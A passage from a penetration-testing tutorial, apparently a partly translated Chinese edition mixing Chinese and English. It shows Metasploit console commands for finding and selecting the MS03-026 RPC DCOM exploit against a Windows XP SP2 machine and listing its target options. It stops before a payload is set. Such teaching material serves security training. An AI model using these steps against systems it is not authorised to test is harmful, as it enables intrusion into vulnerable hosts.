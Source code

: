 现在让我们把手伸进这个充满剥削的世界。首先，我们将研究最主要但应用最广泛的操作系统 Windows XP。在这个配方中，我们将看到如何使用 Metasploit 进入在 Windows XP 机器上运行的目标系统。我们将使用在上一个配方中学习的命令，然后继续选择漏洞利用和有效负载，并设置各种所需参数。

## 准备好了吗

我们将从 `msfconsole`开始渗透测试过程。因此，启动控制台并执行端口扫描以收集有关目标的信息。我们在上一章中详细讨论了端口扫描。在这里，我假设您已经收集了有关目标的信息，并且它正在运行 Windows XP 操作系统。因此，让我们继续选择漏洞利用和有效负载。

## 怎么做。。。

要在 Windows XP SP2 计算机上执行渗透测试，请执行以下步骤：

1.  The primary goal will be to select an exploit that can be used on a Windows XP machine. You can browse to the `/exploits/windows` directory or simply make a search for a list of available exploits for the Windows XP platform. We will be using RPC `dcom` vulnerability to penetrate our target. So let us first search for the RPC `dcom` vulnerability, using the following command:

    ```
    msf exploit(ms03_026_dcom) > search dcom
    Matching Modules
    ================
    Name Disclosure Date Rank Description
    ---- --------------- --- -----------
    exploit/windows
    dcerpc/ms03_026_dcom 2003-07-16 great Microsoft RPC
    xploit/windows/
    driver/
    broadcom_wifi_ssid 2006-11-11 low Broadcom Wireless
    xploit/windows/
    smb/ms04_031_netdde 2004-10-12 good Microsoft NetDDE 
    ```

    正如我们所看到的，搜索产生了三个结果。我们将进行第一次开发，因为它的 `rank` 被列为 `great`，所以它的成功率会更高。

2.  In order to set `exploit/windows/dcerpc/ms03_026_dcom` as the usable exploit, we will execute the following command:

    ```
    msf exploit(ms03_026_dcom) > use exploit/windows/dcerpc/ms03_026_dcom
    msf exploit(ms03_026_dcom) > 
    ```

    提示中的更改表示命令已成功执行。

3.  The next step will be to set up the various parameters of the exploit. The `show options` command will list the available parameters in the exploit. Then, by using the `set` command, we can set up the various parameters. Some parameters will have default values as well:

    ```
    msf exploit(ms03_026_dcom) > show options
    Module options (exploit/windows/dcerpc/ms03_026_dcom):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 135 yes The target port
    Exploit target:
    Id Name
    -- ----
    0 Windows NT SP3-6a/2000/XP/2003 Universal 
    ```
